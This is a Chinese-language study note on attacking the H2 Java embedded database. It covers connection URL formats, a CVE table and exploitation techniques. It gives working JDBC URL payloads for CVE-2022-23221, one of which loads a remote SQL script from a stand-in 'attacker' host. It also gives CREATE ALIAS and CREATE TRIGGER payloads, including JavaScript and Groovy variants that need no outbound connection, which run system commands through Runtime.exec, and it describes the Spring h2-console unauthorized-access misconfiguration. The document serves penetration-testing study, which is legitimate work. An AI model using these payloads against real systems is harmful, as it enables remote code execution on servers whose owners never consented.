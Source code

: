 # H2 Database

H2是一个用Java开发的嵌入式数据库。H2的运行模式包括：内嵌模式（本地连接，使用JDBC）、服务器模式(远程连接，从其他进程或其他机器访问，在TCP层使用JDBC或ODBC)、混合模式（设置AUTO_SERVER=TRUE，同时支持本地或远程）。各运行模式的Url如下
```

本地连接——本地文件连接
jdbc:h2:~/test
jdbc:h2:file:/data/sample
jdbc:h2:file:C:/data/sample(windows)

本地连接——内存数据库
jdbc:h2:mem:（私有格式，只有一个到内存数据库的连接）
jdbc:h2:mem:<databaseName>（这样到内存数据库有多个连接，但是默认最后一个连接关闭时会关闭内存数据库，如果要保持数据库连接添加DB_CLOSE_DELAY=-1）

服务器模式
jdbc:h2:tcp://<server>[:<port>]/[<path>]<databaseName>
jdbc:h2:ssl://<server>[:<port>]/<databaseName>
jdbc:h2:tcp://localhost/~/test
jdbc:h2:tcp://localhost/mem:test 
jdbc:h2:ssl://localhost:8085/~/sample;
```

数据库连接时可以进行一些设置，例如连接时执行sql
```
jdbc:h2:<url>;INIT=RUNSCRIPT FROM '~/create.sql'  // 执行一个sql文件
jdbc:h2:file:~/sample;INIT=RUNSCRIPT FROM '~/create.sql'\;RUNSCRIPT FROM '~/populate.sql'  // 执行多个sql文件
```

官方网站：http://www.h2database.com/html/main.html

历史安装版本下载地址：http://www.h2database.com/html/download-archive.html

重点历史漏洞：
| 漏洞编号 | 漏洞类型 | 影响版本 |
|:---:|:---:|:---:|
|CVE-2021-23463|SQL|< 2.0.202 |
|CVE-2021-42392|RCE|<= 2.0.204|
|CVE-2022-23221|RCE|< 2.1.210|

## CVE-2022-23221
参考链接： https://packetstormsecurity.com/files/165676/H2-Database-Console-Remote-Code-Execution.html
对于数据库URL的官方说明： http://www.h2database.com/html/features.html

这个漏洞用到的payload
```
jdbc:h2:mem:1337;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT
FROM 'http://attacker/evil.sql';'\
```
`INIT`参数是H2数据库的JDBC URL支持的一个配置，即在连接数据库时支持执行一条初始化命令，但命令中不能包含分号。这个Payload又借助了另一个命令`RUNSCRIPT`，该命令用于执行SQL文件，例如`RUNSCRIPT FROM './evil.sql'`，对应的处理类是`h2/src/main/org/h2/store/fs/FilePathDisk.java`
```
    public InputStream newInputStream() throws IOException {
        if (name.matches("[a-zA-Z]{2,19}:.*")) {
            if (name.startsWith(CLASSPATH_PREFIX)) { // classpath: ...}
            URL url = new URL(name);
            return url.openStream();
        }
        FileInputStream in = new FileInputStream(name);
        IOUtils.trace("openFileInputStream", name, in);
        return in;
    }
```
而这个类再读取数据时，也可以读取url地址。所以就可以将命令执行的sql写到文件中。进而造成RCE。参考链接中给出的sql内容如下，也可以参照文章下方的命令执行部分的sql，实现JDBC注入造成命令执行
```
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("/tmp/pwnedlolol");';

INSERT INTO TEST VALUES (1);
```

## CVE-2021-42392
参考链接： https://jfrog.com/blog/the-jndi-strikes-back-unauthenticated-rce-in-h2-database-console/

## Spring+H2 未授权访问
SpringBoot配置H2一般如下，这样会为web应用增加一个路径`/h2-console/`，这个默认路径可以通过`spring.h2.console.path`来修改。
```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```
而spring.h2.console.settings.web-allow-others设置为true，就会允许任意用户访问console。造成未授权访问。然后可以与上述JNDI攻击配合。

## 命令执行
https://www.h2database.com/html/commands.html

根据上述官方官方文档，H2支持的命令中`CREATE ALIAS`和`CREATE TRIGGER`可以让用户自定义函数（UDF），P牛给出一个自定义shell函数的写法，其中两个`$`符号表示无需转义的长字符串。
```
CREATE ALIAS shell AS $$void shell(String s) throws Exception { java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc.exe');
```
这个利用的前提是（1）h2 console支持“创建”数据库，如果默认不支持则需要在启动console时添加`-ifNotExists`参数（2）目标系统配置了javac （3）创建UDF并执行


## 不出网命令执行
后来P牛也提到，如果实战中，遇到不出网的情况，上面CVE-2022-23221从url中加载sql文件就无法生效。init只能执行一条sql。也就是只能定义UDF不能执行UDF。就需要在定义的时候就让代码执行。然后提出了利用Groovy元编程的技巧，在编译Groovy语句(而非执行时)就执行攻击者预期的代码。
```
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS shell2 AS $$@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec("cmd.exe /c calc.exe") })
def x$$
```
但是这个不出网利用要用到本地的groovy依赖，并且这个groovy依赖不是常见的groovy库，而是groovy-sql，依赖如下
```
<dependency>
  <groupId>org.codehaus.groovy</groupId>
  <artifactId>groovy-sql</artifactId>
  <version>3.0.8</version>
</dependency>
```

这个限制就很难了。所以P牛又提到了`CREATE TRIGGER`。官方文档表明，可以使用`javax.script.ScriptEngineManager`创建org.h2.api.Trigger的实例。来解析javascript或ruby脚本。由于`javax.script.ScriptEngineManager`是jdk自带的，避免了需要`groovy-sql`这种第三方依赖的问题。

而Trigger在编译对象时，只通过前缀来判断脚本。`org.h2.schema.TriggerObject@loadFromSource`代码如下
```java
if (SourceCompiler.isJavaxScriptSource(triggerSource)) {
    return (Trigger) compiler.getCompiledScript(fullClassName).eval();
}

public static boolean isJavaxScriptSource(String source) {
    return isJavascriptSource(source) || isRubySource(source);
}

private static boolean isJavascriptSource(String source) { 
    return source.startsWith("//javascript"); // 
}

private static boolean isRubySource(String source) { 
    return source.startsWith("#ruby");
}
```
代码表明只要以`//javascript`开头就认为是javascript脚本，构造的payload如下。`//javascript`后面需要有个换行！这个jdbc url相对上面的payload来讲，没有什么限制。只要在paylaod可控的背景下就可以攻击。
```
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')
$$
```

很多攻击是基于H2 database console界面的，利用方式存在一些限制。但是如果能直接控制JDBC URL的场景，就没有如下的限制。
```
开启 -webAllowOthers 选项，支持外网访问
开启 -ifNotExists 选项，支持创建数据库
```
